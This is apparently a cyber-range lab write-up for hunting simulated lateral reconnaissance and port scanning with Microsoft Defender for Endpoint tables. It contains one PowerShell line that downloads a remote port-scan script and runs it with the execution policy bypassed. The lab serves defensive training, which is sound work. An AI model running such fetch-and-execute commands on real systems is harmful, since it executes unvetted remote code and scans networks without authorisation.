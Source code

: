 # Threat Event (Sudden Network Slowdowns)
**Lateral Reconnaissance and Port Scanning**

## Steps the "Bad Actor" took Create Logs and IoCs:
1. Provision a Windows VM and confirm the VM is reachable externally (e.g., ping)
2. Onboard the VM to Microsoft Defender for Endpoint (MDE)
3. Run the following PowerShell command on the onboarded VM to simulate lateral reconnaissance and port scanning
 ```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
 ```
---

## Tables Used for IoC Identification:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect failed connection requests and evidence of port scanning.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table|
| **Purpose**| Used to detect the time and source of the port script launch.|

---

